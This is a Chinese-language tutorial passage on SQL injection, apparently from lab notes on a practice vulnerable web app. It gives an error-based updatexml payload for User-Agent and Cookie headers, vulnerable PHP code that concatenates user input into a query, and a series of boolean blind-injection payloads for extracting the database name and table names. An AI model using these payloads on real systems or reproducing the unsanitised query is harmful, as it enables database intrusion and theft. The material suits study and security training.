 抓包，尝试将User-Agent清空，输出单引号测试，页面报错信息，存在注入漏洞。

payload:``kite' or updatexml(1,concat(0x7e,database ()),0) or '``

>> 这里的Cookie也是可以注入的

## 盲注(base_on_boolian)

**漏洞原理**

后台使用了屏蔽错误报告，所以无法根据报错信息来进行注入判断，因此此时注入成为``盲注``。

**判断网站是否存在盲注特征**

- 没有报错信息
- 正确输入与错误输入都只有两种情况(可以看作0 or 1)
- 在正确的输入下，后面跟着and 1= 1/and1 =2 来判断

**手工盲注步骤**
```
1.判断是否存在注入,注入是字符型还是数字型
2.猜解当前数据库名
3.猜解数据库中的表名
4.猜解表中的字段名
5.猜解数据
```
**服务端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //mysqi_query不打印错误描述,即使存在注入,也不好判断
    $result=mysqli_query($link, $query);//
//     $result=execute($link, $query);
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```
**漏洞利用**

这里需要一个存在的账户，这里用kobe账号测试。

```
说明存在字符型注入
kobe' and 1=1#    正确执行
kobe' and 1=2#    显示用户名不存在

判断数据库名称长度
kobe' and length(database())>5#  正确执行
kobe' and length(database())>7#  显示用户名不存着

用substr()、asscii函数判断数据库由哪些字母组成(二分法)
kobe' and ascii(substr(database(), 1, 1)) > 113#
kobe' and ascii(substr(database(), 1, 1)) > 105#
kobe' and ascii(substr(database(), 1, 1)) = 112#

判断表名长度
kobe' and  length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,100)) = 8#

```
